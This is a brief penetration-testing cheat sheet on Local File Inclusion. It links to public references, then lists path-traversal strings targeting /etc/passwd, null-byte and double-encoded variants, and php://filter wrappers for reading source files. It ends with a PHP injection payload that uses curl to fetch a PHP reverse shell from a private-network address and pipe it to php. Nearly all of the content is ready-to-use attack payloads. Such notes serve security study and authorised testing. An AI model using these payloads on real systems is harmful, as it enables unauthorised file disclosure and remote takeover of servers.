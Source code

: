 paTags: #Enumeration #UsefulLinks 
LFI = Local File Inclusion

https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
https://book.hacktricks.xyz/pentesting-web/file-inclusion


```
../../../../../../etc/passwd
..//..//..//..//..//etc/passwd
....\/....\/....\/etc/passwd
..///////..////..//////etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

Null byte (%00)
```
../../../etc/passwd%00
```

Encoding
```
..%252f..%252f..%252fetc%252fpasswd
..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
%252e%252e%252fetc%252fpasswd
%252e%252e%252fetc%252fpasswd%00
```

php wrapper
```
php://filter/read=string.rot13/resource=index.php
php://filter/convert.iconv.utf-8.utf-16/resource=index.php
php://filter/convert.base64-encode/resource=index.php
pHp://FilTer/convert.base64-encode/resource=index.php

php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```



```
' and die(show_source('/etc/passwd')) or '


' and die(system("curl http://192.168.45.185/php-reverse-shell.php|php")) or '
```